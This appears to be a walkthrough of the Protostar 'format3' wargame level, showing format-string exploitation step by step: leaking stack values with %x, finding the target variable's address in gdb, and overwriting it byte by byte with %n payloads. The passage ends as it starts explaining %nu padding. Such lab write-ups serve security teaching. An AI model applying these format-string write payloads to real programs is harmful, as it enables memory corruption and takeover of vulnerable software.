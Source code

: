 ```c
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

This is similar to format 2 except that we now have to precisely control what
gets written to `target`.

Again, we start by locating the start of our input string.

```shell
user@protostar:/opt/protostar/bin$ python -c "print 'AAAA' + '%x.'*11 + '%x'" | /opt/protostar/bin/format3
AAAA0.bffff580.b7fd7ff4.0.0.bffff788.804849d.bffff580.200.b7fd8420.bffff5c4.41414141
target is 00000000 :(
```

We also find the memory address of `target`.

```shell
(gdb) print &target
$2 = (int *) 0x80496f4
```

We show that we are able to write to `target`.

```shell
user@protostar:/opt/protostar/bin$ python -c "print '\xf4\x96\x04\x08' + '%x.'*11 + '%n'" | /opt/protostar/bin/format3
0.bffff580.b7fd7ff4.0.0.bffff788.804849d.bffff580.200.b7fd8420.bffff5c4.
target is 0000004c :(
```

With format strings, we can supply different addresses one after another on the
stack and supply multiple `%n` parameters to write to the least significant
byte of each address in sequence.

For example, we can write to all 4 bytes of `target`.

```shell
user@protostar:/opt/protostar/bin$ python -c "print '\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08' + '%x.'*11 + '%n%n%n%n'" | /opt/protostar/bin/format3
0.bffff580.b7fd7ff4.0.0.bffff788.804849d.bffff580.200.b7fd8420.bffff5c4.
target is 58585858 :(
```

How do we control the value that gets writen for each individual byte? We use
the same `%nu` technique. Before we can place a `%nu` before each `%n`, we need
to pad our input string since each `%nu` also pops the stack. We do this by
adding `\x01\x01\x01\x01` before each address in our input string.
